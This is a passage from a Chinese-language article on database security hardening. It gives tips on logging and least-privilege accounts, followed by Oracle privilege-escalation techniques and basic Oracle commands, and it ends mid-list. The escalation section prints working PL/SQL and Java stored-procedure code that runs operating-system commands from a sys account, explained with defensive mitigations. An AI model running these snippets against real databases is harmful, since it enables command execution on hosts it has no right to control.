 6.  开启日志 可以开启日志对数据库进行审计,但是也会消耗资源，可根据实际情况操作。
    
7.  网站使用的数据库账号权限最小化 可以根据上面写的网站连接数据库账户推荐的方案建立。
    
8.  合理使用数据库进程账户 数据库进程账户使用较低权限账户,新建一个新用户，添加数据目录的写权限，如果配置之后跑不起来，可以退而求其次，给予整个数据库目录的完全控制权限。
    
9.  合理配置数据库进程账户对磁盘的权限 不要给予数据库目录以外的特殊权限，最好是读取权限都不给，可以根据实际情况来安排，原则就是数据库目录给的权限能保证正常运行，其他的目录能不给就不给。
    

0x08 oracle提权及防御点
-----------------

* * *

### 1. 通过PL/SQL提权

```
create or replace library exec_shell as '$ORACLE_HOME\bin\msvcrt.dll';  
create or replace procedure execmd (command in char) is external name "system" library exec_shell language c; / exec execmd('net user >netaaa.txt');

```

### 2. 使用java提权

```
CREATE OR REPLACE AND RESOLVE JAVA SOURCE NAMED "JAVACMD" AS import java.lang.*; import java.io.*; public class JAVACMD { public static void execCommand (String command) throws IOException { Runtime.getRuntime().exec(command); } }; / CREATE OR REPLACE PROCEDURE JAVACMDPROC (p_command IN VARCHAR2) AS LANGUAGE JAVA NAME 'JAVACMD.execCommand (java.lang.String)'; / exec javacmdproc('cmd.exe /c net user > netaaa.txt');

```

以上两种方法如果使用sys均可以提权成功，而普通权限用户是无法完成上面的操作的。所以防御源头还是只能对sys特权账户的管理，但是如果真的特权账户被黑客获取，此时的方法也只有使用低权限的数据库进程账户，以及控制进程账户对磁盘的权限，这样操作能将黑客能够操作的权限降到最低。 至于先对低权限的oracle账户提升为dba权限，然后进行系统提权的操作本文不讨论，也请大牛提供更好的方法。

0x09 oracle常见操作命令
-----------------

* * *

### 1. 连接数据库

```
conn sys/mima@orcl as sysdba;

```

### 2. 新建用户

```
create user yonghuming identified by mima;

```

### 3. 给用户授权

